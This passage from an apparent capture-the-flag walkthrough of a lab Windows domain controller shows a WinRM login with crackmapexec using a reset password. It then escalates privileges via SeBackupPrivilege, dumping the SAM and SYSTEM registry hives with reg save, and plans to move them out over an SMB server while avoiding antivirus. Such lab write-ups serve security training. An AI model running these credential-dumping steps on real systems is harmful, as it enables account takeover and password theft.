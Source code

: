 If we test the same `crackmapexec` command as above for `Caroline.Robinson`, we can see that their password was successfully updated. Normally I'd now dump the LDAP with bloodhound to get all of the domain objects into a GUI, but if we test `crackmapexec` against WinRM we can see that we already are able to login as this user.

```Kali
└─$ crackmapexec winrm BabyDC.baby.vl -u 'Caroline.Robinson' -p 'password123@'
SMB         BabyDC.baby.vl  5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        BabyDC.baby.vl  5985   BABYDC           [*] http://BabyDC.baby.vl:5985/wsman
WINRM       BabyDC.baby.vl  5985   BABYDC           [+] baby.vl\Caroline.Robinson:password123@ (Pwn3d!)
```

After logging in, you can find the user flag within the user's Desktop directory.

![image1](/images/vulnlab/baby-vl/b.png "B")

# Privilege Escalation w/ SeBackupPrivilege

Let's do a quick privilege to see if there's anything that we can exploit.

```Evil-WinRM
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
[...snip...]
```

You'll see from the output that we have `SeBackupPrivilege` enabled for our user. This essentially means that we can backup various parts of the filesystem. In most cases, this can be for a engineer or technical support user and seems harmless at first glance. However, this means we can also backup sensitive files such as the `SAM` and `SYSTEM` databases. These database essentially house user accounts and security objects for all domain objects on the machine. The only issue is that this also houses user passwords, meaning if we dump these databases we can view the password for every user on the machine.

So first, let's dump both of these databases into a temporary directory.

```Evil-WinRM
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> mkdir C:\temp
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam c:\temp\sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system c:\temp\system
```

These files will now be saved to our temporary directory, in which we can download them to our local machine. This machine does have AV enabled so we won't be able to set up a simple C2 server's without obfuscating our payloads, meaning we'll need to find a way to transfer our files back and forth in a inconspicuous manner.

We can use Impacket's `smbserver` to spin up a quick SMB server, to which we can then transfer our files to our Kali machine.
